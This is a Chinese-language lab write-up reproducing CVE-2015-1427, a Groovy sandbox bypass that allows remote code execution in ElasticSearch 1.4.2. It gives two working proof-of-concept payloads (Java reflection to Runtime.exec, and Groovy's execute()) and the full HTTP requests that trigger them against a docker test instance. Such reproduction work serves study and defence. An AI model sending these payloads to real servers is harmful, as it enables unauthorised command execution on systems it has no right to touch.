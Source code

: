 ```yaml
---
title: "（CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞"
id: zhfly2904
---
```


# （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞

## 一、漏洞简介

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

## 二、漏洞影响

elasticsearch版本：v1.4.2

## 三、复现过程

### Groovy语言“沙盒”

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1.  既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2.  Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText() 
```

Goovy直接执行命令法：

```
def command='id';def res=command.execute().text;res 
```

### 漏洞复现

编译及运行测试环境

```
docker-compose build
docker-compose up -d 
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `{

“name”: “test”

}` 
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156 `{“size”:1, “script_fields”: {“lupin”:{“lang”:“groovy”,“script”: “java.lang.Math.class.forName(“java.lang.Runtime”).getRuntime().exec(“id”).getText()”}}}` 
```

![image](../img/1504651339686fdff471c705b5e24857.png)

## 参考链接

> https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/